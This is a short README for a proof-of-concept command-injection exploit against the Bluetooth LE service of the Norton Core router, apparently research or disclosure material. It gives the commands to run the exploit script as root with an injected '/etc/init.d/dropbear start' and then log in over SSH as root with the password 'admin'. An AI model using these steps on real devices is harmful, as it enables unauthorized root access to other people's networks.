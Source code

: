 # PoC command injection in BLE service of Norton Core Secure WiFi Router

To demonstrate the exploitation, we will use:
- OS GNU/Linux;
- Bluetooth dongle adapter;
- BlueZ utility (for testing Bluetooth connection).

In order to use the script, we will need to set all dependencies in a advance:

```shell
$ pip install -r ./requirements.txt
```

With the help of `BlueZ` utilities, we should ensure Bluetooth is enabled and
functions properly.

1. Restart the router to provide access to the engineering page.
2. Start the PoC on behalf of the root user (required for operating with
   Bluetooth) with the command on executing as an argument:

    ```shell
    $ ./ble_norton_core.py "/etc/init.d/dropbear start"
    ```

    After the script is successfully executed, we get access to the device via
    the SSH connection. We put `root` as a user and `admin` as password:

    ```shell
    $ ssh root@norton.core
    ```
